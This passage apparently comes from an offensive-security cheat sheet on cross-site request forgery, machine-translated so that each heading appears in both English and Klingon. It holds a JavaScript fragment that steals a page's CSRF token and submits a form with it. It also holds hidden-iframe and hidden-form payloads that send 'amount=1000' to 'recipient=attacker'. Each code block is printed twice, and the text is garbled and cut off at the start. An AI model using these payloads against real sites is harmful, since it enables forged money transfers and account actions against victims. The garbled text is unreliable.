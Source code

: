 ```javascript
page = xhr.response
// Get the input element
input = page.getElementById("token");
// Show the token
//console.log("The token is: " + input.value);
// Use the token to submit the form
submitFormWithTokenJS(input.value);
}
};
// Make the request
xhr.send(null);
}

var GET_URL="http://google.com?param=VALUE"
var POST_URL="http://google.com?param=VALUE"
getTokenJS();
```
### **Steal CSRF Token and send a Post request using an iframe, a form and Ajax**

### **CSRF Token jatlh je, Post request yIqem iframe, form je Ajax lo'wI'**

#### **Iframe Method**

#### **Iframe tuj**

```html
<iframe src="https://www.example.com/transfer?amount=1000&recipient=attacker" style="display:none;"></iframe>
```

```html
<iframe src="https://www.example.com/transfer?amount=1000&recipient=attacker" style="display:none;"></iframe>
```

#### **Form Method**

#### **Form tuj**

```html
<form action="https://www.example.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="recipient" value="attacker">
  <input type="submit" value="Submit">
</form>
```

```html
<form action="https://www.example.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="recipient" value="attacker">
  <input type="submit" value="Submit">
</form>
```
